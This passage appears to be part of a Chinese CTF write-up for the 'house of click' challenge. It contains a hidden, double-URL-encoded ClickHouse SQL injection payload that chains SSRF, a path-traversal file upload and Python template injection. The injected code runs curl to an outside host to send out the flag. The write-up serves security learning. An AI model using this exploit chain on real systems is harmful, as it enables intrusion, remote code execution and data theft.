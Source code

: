 ```bash
进行 URL 编码后：
```

```bash
id=1 AND (SELECT * FROM url('http://default:default@db:8123/?query=%2549%254e%2553%2545%2552%2554%2520%2549%254e%2554%254f%2520%2546%2555%254e%2543%2554%2549%254f%254e%2520%2575%2572%256c%2528%2527%2568%2574%2574%2570%253a%252f%252f%2562%2561%2563%256b%2565%256e%2564%253a%2538%2530%2530%2531%252f%2561%2570%2569%252f%2575%2570%256c%256f%2561%2564%2527%252c%2520%2527%2554%2561%2562%2553%2565%2570%2561%2572%2561%2574%2565%2564%2552%2561%2577%2527%252c%2520%2527%2578%2520%2553%2574%2572%2569%256e%2567%2527%252c%2520%2568%2565%2561%2564%2565%2572%2573%2528%2527%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%2527%253d%2527%256d%2575%256c%2574%2569%2570%2561%2572%2574%252f%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%2562%256f%2575%256e%2564%2561%2572%2579%253d%252d%252d%252d%252d%2574%2565%2573%2574%2527%252c%2520%2527%2558%252d%2541%2563%2563%2565%2573%2573%252d%2554%256f%256b%2565%256e%2527%253d%2527%2530%2536%2561%2531%2538%2531%2562%2535%2534%2537%2534%2564%2530%2532%2530%2563%2532%2532%2533%2537%2563%2565%2561%2534%2533%2533%2535%2565%2565%2536%2566%2564%2527%2529%2529%2520%2556%2541%254c%2555%2545%2553%2520%2528%2527%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2544%2569%2573%2570%256f%2573%2569%2574%2569%256f%256e%253a%2520%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%256e%2561%256d%2565%253d%2522%256d%2579%2566%2569%256c%2565%2522%253b%2520%2566%2569%256c%2565%256e%2561%256d%2565%253d%2522%252e%252e%252f%2574%2565%256d%2570%256c%2561%2574%2565%2573%252f%2574%2565%2573%2574%252e%2568%2574%256d%256c%2522%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%253a%2520%2574%2565%2578%2574%252f%2570%256c%2561%2569%256e%255c%2572%255c%256e%255c%2572%255c%256e%2524%2563%256f%2564%2565%253a%255c%2572%255c%256e%2520%2520%2520%2520%255f%255f%2569%256d%2570%256f%2572%2574%255f%255f%2528%255c%2527%256f%2573%255c%2527%2529%252e%2573%2579%2573%2574%2565%256d%2528%255c%2527%2563%2575%2572%256c%2520%2568%2574%2574%2570%253a%252f%252f%2568%256f%2573%2574%252e%2564%256f%2563%256b%2565%2572%252e%2569%256e%2574%2565%2572%256e%2561%256c%253a%2535%2535%2535%2535%252f%253f%2566%256c%2561%2567%253d%2560%252f%2572%2565%2561%2564%2566%256c%2561%2567%2520%257c%2520%2562%2561%2573%2565%2536%2534%2560%255c%2527%2529%255c%2572%255c%256e%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%252d%252d%2527%2529%253b', 'TabSeparatedRaw', 'x String'))
```

7、最终直接访问上传后的模板`test.html`即可 RCE

思路：通过`路径绕过nginx反向代理`，再通过`ClickHouse SQL`注入实现 SSRF，最终传入 SSTI 执行

# 总结

`ez_wordpress`与`house of click`质量很高，`house of click`有的云里雾里的，因为没接触过`house of click`数据库，其实还有一题 ActiveMQ 的反序列化题目，实在没有研究过 CVE-2023-46604 源码，就不复现了。
